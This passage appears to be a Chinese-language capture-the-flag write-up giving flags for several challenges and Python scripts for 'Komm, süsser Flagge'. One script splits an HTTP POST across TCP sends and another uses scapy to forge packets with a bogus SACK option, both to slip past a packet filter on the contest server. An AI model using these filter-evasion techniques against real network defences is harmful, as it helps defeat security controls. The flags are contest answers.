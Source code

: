 > flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}

## 低带宽星球

使用PNGGauntlet工具可以直接获得flag1

（未完成第二问）

> flag{justfind_an_image_compressor_andgo!}

## Komm, süsser Flagge

第一小问和第二小问都可以用以下脚本

```python
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(("202.38.93.111", 18080))
client.send(b"PO")
client.send(b"ST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\n")
client.send(b"Content-Type: text/plain;charset=utf-8\r\n")
client.send(b"Content-Length: 100\r\n")
client.send(b"\r\n")
client.send(b"<your token>")
msg = client.recv(1024)
print(msg.decode("utf-8"))
```

第三小问如下，flag3直接用wireshark抓包即可（你如果想要做出来第三小问，肯定是需要用wireshark抓包的），其实主要因为我不知道这个scapy库如何获取`res2`中的HTTP响应内容

```python
import scapy.all as scapy
import random

dst_ip = "202.38.93.111"
dst_port = 18082
src_port = random.randint(8000, 60000)
bypass = "GET / HTTP"
data = (
    "POST / HTTP/1.1\r\n"
    "Host: 202.38.93.111:18082\r\n"
    "Content-Type: text/plain;charset=utf-8\r\n"
    "Content-Length: 100\r\n"
    "\r\n"
    "<your token>"
)
spk1 = scapy.IP(dst=dst_ip) / scapy.TCP(dport=dst_port, sport=src_port, flags="S",
                                        options=[("SAck", bypass), ("EOL", None)])
res1 = scapy.sr1(spk1)
ack1 = res1[scapy.TCP].ack
ack2 = res1[scapy.TCP].seq + 1
spk2 = scapy.IP(dst=dst_ip) / scapy.TCP(dport=dst_port, sport=src_port, seq=ack1, ack=ack2, flags="A",
                                        options=[("SAck", bypass), ("EOL", None)])
scapy.send(spk2)

da1 = scapy.IP(dst=dst_ip) / scapy.TCP(dport=dst_port, sport=src_port, seq=ack1, ack=ack2, flags=24,
                                       options=[("SAck", bypass), ("EOL", None)]) / data
res2 = scapy.sr1(da1)
```
